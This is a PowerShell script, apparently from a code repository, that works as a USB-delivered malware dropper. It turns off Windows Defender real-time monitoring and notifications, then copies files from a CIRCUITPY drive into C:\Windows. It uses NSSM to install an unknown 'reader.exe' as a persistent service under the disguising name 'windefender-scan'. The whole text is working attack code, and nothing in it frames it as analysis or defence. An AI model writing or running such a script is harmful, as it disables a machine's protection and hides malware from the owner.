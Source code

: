 # Disable Enhanced Notifications
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1

# Disable Real-Time Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Find the CIRCUITPY drive
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        # Copy files from CIRCUITPY to the Windows folder
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"  # Assuming nssm.exe is copied to the Windows folder
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and the reader.exe file exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            # Install and start the service
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found in the destination path."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
